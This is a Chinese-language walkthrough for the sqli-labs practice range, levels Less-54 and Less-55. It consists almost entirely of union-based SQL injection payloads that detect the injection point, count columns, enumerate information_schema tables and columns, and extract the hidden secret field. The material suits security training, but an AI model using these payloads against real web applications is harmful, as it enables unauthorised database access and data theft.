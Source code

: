 #### 

## Less-54

**联合查询注入(十次限制)-'**

#### 

```
#判断得知为字符型注入:
?id=1' and 1=1 --+

#判断字段数
?id=1' order by 3 --+

#爆当前数据库和用户名
?id=0' union select 1,user(),database() --+

#爆当前数据库下的所有表
?id=0' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() --+

#这里的表每一次都是随机给出的/dtbzuzk1tk/

#爆字段
?id=0' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='dtbzuzk1tk' --+

#字段也是随机/secret_S7T1/

#爆数据，取/secret_****/段为过关数据
?id=0' union select 1,database(),group_concat(0x7e,sessid,0x7e,secret_S7T1) from dtbzuzk1tk --+
```

#### 

## Less-55

**联合查询注入(十四次限制)-)**

#### 

```
#判断得知为字符型注入:
?id=1) and 1=1 --+

#判断字段数
?id=1) order by 3 --+

#爆当前数据库和用户名
?id=0) union select 1,user(),database() --+

#爆当前数据库下的所有表
?id=0) union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() --+

#这里的表每一次都是随机给出的/k4slr3jkz6/

#爆字段
?id=0) union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='k4slr3jkz6' --+

#字段也是随机/secret_OBJS/

#爆数据，取/secret_****/段为过关数据
?id=0) union select 1,database(),group_concat(0x7e,sessid,0x7e,secret_OBJS) from k4slr3jkz6 --+
```
